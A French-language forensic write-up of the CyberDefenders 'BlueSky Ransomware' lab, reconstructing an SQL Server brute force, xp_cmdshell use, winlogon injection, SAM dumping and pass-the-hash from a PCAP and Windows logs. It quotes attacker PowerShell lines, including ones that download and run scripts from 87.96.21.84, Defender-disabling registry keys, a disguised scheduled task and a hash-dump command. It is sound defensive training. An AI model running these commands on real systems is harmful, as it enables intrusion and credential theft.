# BlueSky Ransomware Lab : CyberDefenders Writeup

> Reconstruction d'une attaque ransomware BlueSky à partir d'un PCAP réseau et de logs Windows. Vecteur initial : brute-force SQL Server, pivot via xp_cmdshell, injection C2 dans winlogon.exe, dump de credentials, mouvement latéral SMB.

| Lab | Catégorie | Difficulté | Statut |
|---|---|---|---|
| [BlueSky Ransomware](https://cyberdefenders.org/blueteam-ctf-challenges/bluesky-ransomware) | Network Forensics | Medium | 16/16 ✅ |

**Tactiques MITRE couvertes** : Execution, Persistence, Privilege Escalation, Defense Evasion, Credential Access, Discovery, Command and Control, Impact

---

## Contexte

Une entreprise signale un incident : des fichiers chiffrés, des disruptions réseau, une menace active. Les artefacts fournis sont un PCAP et des logs Windows. L'objectif est de reconstituer la chaîne d'attaque depuis le premier accès jusqu'au déploiement du ransomware BlueSky.

Ce qui rend ce lab intéressant par rapport à un lab classique "phishing + macro" : le vecteur initial est SQL Server. L'attaquant brute-force directement la base, active xp_cmdshell, et exécute ses commandes depuis le process `sqlservr.exe`. Pas de clic utilisateur, pas de pièce jointe. Juste un port 1433 exposé avec un compte `sa` mal protégé.

## Méthodologie et sources

Analyse statique du PCAP sous Wireshark, corrélation avec les Event Logs Windows. Pour les questions MITRE, consultation directe de attack.mitre.org. Pas d'outils tiers payants.

Les deux artefacts se complètent : le PCAP contient les scripts téléchargés (HTTP en clair depuis `87.96.21.84`), les Event Logs prouvent l'exécution côté victime. Quand l'un des deux ne suffit pas, la réponse est dans l'autre.

---

## Investigation pas à pas

### Q1. IP source du port scanning

Filtrer le trafic sur le PCAP : une adresse IP génère un volume anormal de connexions TCP vers des ports variés sur la machine cible. Pattern classique de scan SYN.

**Réponse** : `87.96.21.84`



C'est aussi le serveur C2 depuis lequel tous les scripts PowerShell seront téléchargés. L'attaquant centralise tout sur la même IP, ce qui simplifie le tracking mais rend aussi l'infrastructure facile à bloquer rétrospectivement.

### Q2. Compte ciblé par l'attaquant

Le trafic TDS (port 1433) contient les tentatives d'authentification SQL Server. Le compte visé est `sa`, le compte administrateur par défaut de SQL Server. Si ce compte existe et n'est pas désactivé, c'est souvent synonyme d'une instance installée avec les paramètres par défaut.

**Réponse** : `sa`



### Q3. Mot de passe découvert

Dans le PCAP, une des tentatives de login TDS aboutit — la connexion s'établit. Le mot de passe correspondant à `sa` dans les trames de succès :

**Réponse** : `cyb3rd3f3nd3r$`


Petit aparté sur ce mot de passe : il ressemble à un password "sécurisé" (majuscules, chiffres, caractère spécial, substitutions leet), mais il est dans les dictionnaires ciblés SQL Server. Un mot de passe long et aléatoire sans substitutions prévisibles aurait mieux résisté. Les substitutions leet (`3` pour `e`, `$` pour `s`) ne coûtent presque rien à bruteforcer avec des wordlists thématiques.

### Q4. Setting activé pour le contrôle de la machine

Une fois `sa` compromis, l'attaquant active `xp_cmdshell`. C'est une procédure stockée étendue de SQL Server qui permet d'exécuter des commandes shell OS directement depuis une requête SQL. Désactivée par défaut depuis SQL Server 2005, mais réactivable avec les droits `sysadmin`.

```sql
sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

**Réponse** : `xp_cmdshell`



### Q5. Process dans lequel le C2 est injecté

C'est la question la plus intéressante du lab, et celle qui m'a pris le plus de temps. L'indice était dans les Event Logs, pas dans le PCAP.

**Event ID 400** dans les logs PowerShell (`Windows PowerShell.evtx`) log le démarrage d'un moteur PowerShell. Le champ clé est `HostApplication` : il indique quel process héberge ce moteur. Dans un système sain, ce champ vaut `powershell.exe`. Ici il vaut `winlogon.exe`.

```
HostApplication=winlogon.exe
EngineVersion=5.1.19041.4291
HostName=MSFConsole
```

`winlogon.exe` n'a aucune raison légitime d'héberger un runspace PowerShell. Le `HostName=MSFConsole` confirme : c'est Metasploit qui a injecté un moteur PS dans le process, pour s'exécuter dans son contexte de sécurité SYSTEM.

**Réponse** : `winlogon.exe`



Note : j'avais d'abord cherché dans `Invoke-PowerDump.ps1` mais rien. La preuve n'était pas dans une ligne de code ou un accès handle explicite, mais dans un event de cycle de vie PowerShell qui révèle l'hôte du moteur. C'est le genre d'artefact qu'on rate si on cherche uniquement des IOCs binaires.

### Q6. URL du premier fichier téléchargé après l'escalade

Une fois les privilèges SYSTEM obtenus via winlogon, le C2 télécharge le premier script de la phase suivante via une requête HTTP visible dans le PCAP.

**Réponse** : `http://87.96.21.84/checking.ps1`



`checking.ps1` est le dropper principal. Il vérifie les privilèges (`S-1-5-32-544`), désactive Defender si nécessaire, et en fonction du niveau, appelle soit `CleanerEtc` (SYSTEM) soit `CleanerNoPriv` (user). C'est lui qui orchestre la suite.

### Q7. Group SID vérifié par le script

Dans `checking.ps1`, la première ligne :

```powershell
$priv = [bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")
```

`S-1-5-32-544` est le SID du groupe `BUILTIN\Administrators`. Le script bifurque entièrement selon ce booléen : branche admin avec persistance SYSTEM, branche user sans.

**Réponse** : `S-1-5-32-544`


### Q8. Clés de registre utilisées pour désactiver Defender

Toujours dans `checking.ps1`, la fonction `Disable-WindowsDefender` définit un tableau de clés à écrire sous `HKLM:\SOFTWARE\Microsoft\Windows Defender` :

```powershell
$defenderRegistryKeys = @(
    "DisableAntiSpyware",
    "DisableRoutinelyTakingAction",
    "DisableRealtimeMonitoring",
    "SubmitSamplesConsent",
    "SpynetReporting"
)
```

**Réponse** : `DisableAntiSpyware,DisableRoutinelyTakingAction,DisableRealtimeMonitoring,SubmitSamplesConsent,SpynetReporting`



Les deux dernières clés (`SubmitSamplesConsent` et `SpynetReporting`) visent à couper le télémétrie vers Microsoft. Pas juste désactiver la protection locale, mais aussi bloquer le reporting cloud. L'attaquant évite que des samples soient envoyés et analysés automatiquement.

### Q9. URL du second fichier téléchargé

Dans `CleanerEtc` (branche admin de `checking.ps1`) :

```powershell
$WebClient.DownloadFile("http://87.96.21.84/del.ps1", "C:\ProgramData\del.ps1")
```

`del.ps1` est le script de nettoyage et de stealth. Il tue les outils d'analyse, supprime les subscriptions WMI, puis se suicide.

**Réponse** : `http://87.96.21.84/del.ps1`



### Q10. Nom complet de la tâche planifiée créée pour la persistance

Toujours dans `CleanerEtc` :

```powershell
C:\Windows\System32\schtasks.exe /f /tn "\Microsoft\Windows\MUI\LPupdate" /tr "C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass -File C:\ProgramData\del.ps1" /ru SYSTEM /sc HOURLY /mo 4 /create
```

Le nom `\Microsoft\Windows\MUI\LPupdate` imite une tâche planifiée Windows légitime (MUI = Multilingual User Interface). Pas de `schtasks.exe` visible dans le task scheduler à première lecture, sauf si on cherche précisément dans `\Microsoft\Windows\MUI\`.

**Réponse** : `\Microsoft\Windows\MUI\LPupdate`



### Q11. Tactic MITRE principale de del.ps1

`del.ps1` fait trois choses :

```powershell
# 1. Supprime les subscriptions WMI → efface les artefacts
Get-WmiObject _FilterToConsumerBinding -Namespace root\subscription | Remove-WmiObject

# 2. Kill les outils de monitoring
"taskmgr", "ProcessHacker", "procexp", "Procmon"... | stop-process

# 3. Se suicide
stop-process $pid -Force
```

L'intention globale est de **disparaître proprement**. Pas de dégradation durable de l'infrastructure défensive — juste effacement et dissimulation avant de passer à la phase suivante.

**Réponse** : `TA0005` (Stealth)



J'avais d'abord répondu `TA0112` (Defense Impairment) en me basant sur le kill des outils de sécurité. Erreur de lecture : `TA0112` cible la dégradation durable des mécanismes de défense (désinstaller un EDR, modifier des policies). Ici tout est éphémère et orienté disparition, ce qui colle mieux à `TA0005`. La distinction est subtile mais logique une fois posée.

### Q12. Script PowerShell utilisé pour le dump de credentials

Dans `ichigo-lite.ps1`, chargé en mémoire via `Invoke-Expression` :

```powershell
Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://87.96.21.84/Invoke-PowerDump.ps1')
```

PowerDump extrait les hashes du SAM. Il tourne dans le contexte SYSTEM de winlogon, donc l'accès est garanti sans avoir besoin d'une élévation supplémentaire.

**Réponse** : `Invoke-PowerDump.ps1`



### Q13. Fichier contenant les credentials dumpés

Dans `ichigo-lite.ps1`, après l'exécution de PowerDump :

```powershell
$EncodedExec = "SW52b2tlLVBvd2VyRHVtcCB8IE91dC1GaWxlIC1GaWxlUGF0aCAiQzpcUHJvZ3JhbURhdGFcaGFzaGVzLnR4dCI="
# Décodé : Invoke-PowerDump | Out-File -FilePath "C:\ProgramData\hashes.txt"
```

**Réponse** : `hashes.txt`




### Q14. Fichier contenant les hôtes découverts

Pour le mouvement latéral, `ichigo-lite.ps1` récupère une liste d'hôtes cibles :

```powershell
$hostsContent = Invoke-WebRequest -Uri "http://87.96.21.84/extracted_hosts.txt" | Select-Object -ExpandProperty Content
```

Ces hôtes alimentent ensuite `Invoke-SMBExec` avec les hashes récupérés (pass-the-hash). Pas besoin du mot de passe en clair.

**Réponse** : `extracted_hosts.txt`



### Q15. Nom du fichier de la ransom note

Obtenu via analyse comportementale de `javaw.exe` (le binaire ransomware téléchargé en fin de chaîne). La sandbox affiche le nom du fichier déposé après chiffrement.

**Réponse** : `# DECRYPT FILES BLUESKY #`



### Q16. Famille du ransomware

Nom extrait du fichier de ransom note et confirmé par l'analyse comportementale du binaire.

**Réponse** : `bluesky`




---

## Chaîne d'attaque reconstituée

```
Port scan (87.96.21.84)
       │
       ▼
Brute-force SQL Server (port 1433)
  → Compte : sa / Mot de passe : cyb3rd3f3nd3r$
       │
       ▼
Activation xp_cmdshell
  → Exécution OS depuis sqlservr.exe
       │
       ▼
Injection PowerShell dans winlogon.exe (SYSTEM)
  → Event ID 400 : HostApplication=winlogon.exe / HostName=MSFConsole
       │
       ├──► Download checking.ps1
       │       │
       │       ├──► Désactivation Defender (5 clés registre)
       │       ├──► Création tâche : \Microsoft\Windows\MUI\LPupdate
       │       └──► Download del.ps1 + ichigo-lite.ps1
       │
       └──► ichigo-lite.ps1
               │
               ├──► Invoke-PowerDump.ps1
               │       └──► Dump SAM → C:\ProgramData\hashes.txt
               │
               ├──► Invoke-SMBExec (pass-the-hash sur extracted_hosts.txt)
               │
               └──► Download javaw.exe (ransomware BlueSky)
                       └──► Chiffrement des fichiers
                               └──► # DECRYPT FILES BLUESKY #
```

---

## Ce que j'ai retenu

La preuve de l'injection dans winlogon m'a coûté du temps. J'avais cherché dans le source de PowerDump (logique : c'est lui qui accède aux credentials), dans les Event ID 4688. Rien. La réponse était dans Event ID 400, un event de cycle de vie du moteur PowerShell que je ne pensais pas à regarder en premier. `HostApplication=winlogon.exe` avec `HostName=MSFConsole` dans le même event : c'est une preuve propre et non ambiguë d'injection. À mettre dans ma liste de réflexes DFIR.

Sur la distinction TA0005 vs TA0112 : la première intuition "ce script kill des outils de sécurité donc c'est Defense Impairment" est défendable mais passe à côté de l'intention globale. Le script ne dégrade pas l'infra défensive de façon persistante, il se cache et efface les traces avant de partir. La granularité des tactics CyberDefenders (TA0112 distinct de TA0005) force à penser l'objectif, pas juste l'action.

Le vecteur SQL Server est plus rare que le phishing dans les labs, mais très réaliste. Des instances MSSQL exposées avec `sa` actif et un mot de passe faible, ça existe en production. Et une fois xp_cmdshell actif, la machine est entièrement compromise sans qu'aucun utilisateur ait rien fait. Pas de MFA qui tienne, pas de sensibilisation phishing qui change quelque chose.

Dernière observation sur l'infrastructure attaquante : tout centralisé sur `87.96.21.84`. Les scripts, les payloads, le serveur HTTP Python (visible dans les headers de réponse : `Server: SimpleHTTP/0.6 Python/3.11.8`). C'est fonctionnel mais peu discret. Un analyste qui voit cette IP dans une connexion réseau peut immédiatement remonter à l'ensemble des IOCs.

---

## Références

- [MITRE ATT&CK : BlueSky Ransomware](https://attack.mitre.org)
- [MITRE T1505.001 : SQL Stored Procedures](https://attack.mitre.org/techniques/T1505/001/)
- [MITRE T1055 : Process Injection](https://attack.mitre.org/techniques/T1055/)
- [MITRE T1003 : OS Credential Dumping](https://attack.mitre.org/techniques/T1003/)
- [MITRE T1550.002 : Pass the Hash](https://attack.mitre.org/techniques/T1550/002/)
- [MITRE T1053.005 : Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)
- [Windows PowerShell Event ID 400 — Engine Lifecycle](https://www.blackhillsinfosec.com/powershell-logging-blue-team/)
